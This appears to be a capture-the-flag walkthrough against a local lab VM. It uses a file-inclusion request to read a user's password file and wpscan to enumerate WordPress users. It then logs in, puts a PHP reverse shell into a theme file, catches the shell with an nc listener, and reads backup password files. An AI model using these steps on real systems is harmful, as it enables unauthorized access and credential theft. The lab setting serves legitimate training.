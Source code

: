 #### Discovery file /home/saket/password.txt

    $ curl -s http://192.168.172.128/image.php?secrettier360=/home/saket/password.txt | sed -e '6,$!d' | sed 's/finaly you got the right parameter<br><br><br><br>//' | sed '$d'
    follow_the_ippsec

## Enumeration wordpress with wpscan

    $ wpscan --url http://192.168.172.128/wordpress/ --enumerate u --no-banner --no-update
    ...
    [i] User(s) Identified:

    [+] victor
     | Found By: Author Posts - Display Name (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)
    ...

# Exploit with wordpress

## Access to wordpress admin and upload shell with login _victor/follow_the_ippsec_ 

Appearance --> Theme Editor --> Only secret.php page is modifiable --> change the content to _php-reverse-shell_

## Connect to server and dig

    curl -s http://192.168.172.128/wordpress/wp-content/themes/twentynineteen/secret.php

    $ nc -lvp 1234
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ uname -a
    Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


    www-data@ubuntu:/tmp$ cat /opt/backup/server_database/backup_pass
    cat /opt/backup/server_database/backup_pass
    your password for backup_database file enc is 

    "backup_password"

    Enjoy!

    www-data@ubuntu:/home/saket$ cat key.txt
    I know you are the fan of ippsec.
